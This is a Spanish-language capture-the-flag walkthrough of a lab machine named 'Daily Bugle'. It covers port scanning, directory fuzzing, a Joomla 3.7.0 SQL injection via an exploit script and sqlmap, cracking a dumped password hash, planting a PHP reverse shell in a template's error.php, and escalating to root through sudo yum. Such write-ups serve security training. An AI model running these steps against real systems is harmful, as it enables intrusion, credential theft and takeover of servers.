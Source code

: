# Daily Bugle

## Scanning

```bash
sudo nmap -sS -p- --min-rate 4000 -vvv --open  10.10.116.241 -oG allports
nmap -sC -sV -p 22,80,3306 10.10.116.241 -oN targeted
```

## 80

```bash
wfuzz -c --hc 404,403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u http://10.10.116.241/FUZZ -t 200
```

![0410020236](0410020236.png)

Tenemos un panel de administracion en `http://10.10.116.241/administrator`.

Ahora que sabemmos que es un cms de joomla podemos averiguar su version entrando a `http://10.10.116.241/administrator/manifests/files/joomla.xml`.

```bash
searchsploit joomla 3.7.0
searchsploit -m php/webapps/42033.txt
```

![0410020237](0410020237.png)

Usaremos este exploit para no usar sqlmap `https://github.com/stefanlucas/Exploit-Joomla`

```bash
python2 joomblah.py http://10.10.116.241/
```

![0410020256](0410020256.png)

Obtenemos un hash `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

### --- OPCIONAL START ---

Si se quiere hacer con sqlmap seria usando el comando que nos da el mismo exploit de searchsploit pero algo mas especifico sería con el comando

```bash
sqlmap -u "http://10.10.116.241/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T #__users -C name,username,password --dump -p 'list[fullordering]'
```

![0410030346](0410030346.png)

### --- OPCIONAL END ---

podemos identificarlo guardando en un archivo y usando el comando `hashid hash`

![0410020239](0410020239.png)

Crackeamos la contraseña usando john

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john hash --show
```

![0410030318](0410030318.png)

## Subir una reverse shell

Para ello vamos a entrar con las credenciales que tenemos ahora y entraremos a extensions -> templates -> templates, luego seleccionamos algun template. Ahora editaremos el error.php con una shell reversa que tengamos en parrot, se puede copiar una con 

```bash
cp /usr/share/laudanum/wordpress/templates/php-reverse-shell.php .
```

Lo editamos con nuestra ip, seleccionamos un puerto por ejemplo 1234 y modificamos para que ejecute bash en vez de sh. Luego nos ponemos a escuchar con netcat `nc -lvp 1234`.

Para poder entrar a la página de error debe entrar a `http://10.10.116.241/templates/beez3/error.php`

![0410030334](0410030334.png)

## FULL TTY

```bash
script /dev/null -c bash
# ctrl + z
stty -a # anotar filas y columnas
stty raw -echo
fg # esto no se mostrará en la terminal pero si podrás escribir
reset
export TERM=xterm
export SHELL=bash
stty rows 37 columns 96 # La cantidad que te haya salido con stty -a
```

![0410030348](0410030348.png)

![0410030358](0410030358.png)

Ahora vemos en /var/www/html/configuration.php encontramos una clave `nv5uz9r3ZEDzVjNu`

![0410040417](0410040417.png)

Habrá que probar con que le da esa contraseña. En /home/ encontramos que existe el usuario jjameson, así que probamos la contraseña cambiando de usuario con `su jjameson` con eso sacamos la flag de user.txt

Encontramos que con `sudo -l` nos muestra que puede usar yum sin la contraseña de root

![0410040404](0410040404.png)

Buscamos si se puede escalar privilegios en la pagina de gtfobins [https://gtfobins.github.io/gtfobins/](https://gtfobins.github.io/gtfobins/)

![0410040441](0410040441.png)

Nos interesa el segundo que crea una shell interactiva con root

![0410040420](0410040420.png)